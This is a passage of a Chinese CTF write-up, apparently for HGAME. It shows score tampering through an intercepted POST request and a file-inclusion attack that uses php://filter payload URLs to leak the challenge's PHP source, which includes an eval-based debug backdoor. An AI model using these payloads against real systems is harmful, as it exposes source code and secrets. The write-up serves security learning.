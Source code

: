 3w分是不可能的，因为就算不死，每一关分数清零；然后就去burp里面看，找到一个比较可疑的history（因为是POST）：

![img](https://raw.githubusercontents.com/Anthem-whisper/imgbed/master/img/20210120165410.png)

点进去，http请求体里面有个键名叫score，恍然大悟：

![img](https://raw.githubusercontents.com/Anthem-whisper/imgbed/master/img/20210120165420.png)

flag入手；

week1题目结束；

![img](https://raw.githubusercontents.com/Anthem-whisper/imgbed/master/img/20210120165427.png)





### level-week 2

------

 

#### web1_Cosmos的博客后台

点开题目：

![img](https://raw.githubusercontents.com/Anthem-whisper/imgbed/master/img/20210120165432.png)

在burpsuite里面可以看到两个包，一个是从index.php重定向过来的，一个是login.php；

由参数 'action=' 联想到文件包含漏洞（文件包含漏洞学习笔记），于是尝试使用几个PHP伪协议来读取页面的源码；

这里附上几个协议的用法：

![img](https://raw.githubusercontents.com/Anthem-whisper/imgbed/master/img/20210120165442.jpeg)

playload：

```
http://cosmos-admin.hgame.day-day.work/?action=php://filter/read=convert.base64-encode/resource=index.php
http://cosmos-admin.hgame.day-day.work/?action=php://filter/read=convert.base64-encode/resource=login.php
```

可以得到两个页面的（base64加密过后的）源码；

login.php:

```
<?php
include "config.php";
session_start();

//Only for debug
if (DEBUG_MODE){
    if(isset($_GET['debug'])) {
        $debug = $_GET['debug'];
        if (!preg_match("/^[a-zA-Z_\x7f-\xff][a-zA-Z0-9_\x7f-\xff]*$/", $debug)) {     
            die("args error!");
        }
        eval("var_dump($$debug);");
    }
}

if(isset($_SESSION['username'])) {
    header("Location: admin.php");
    exit();
}
else {
```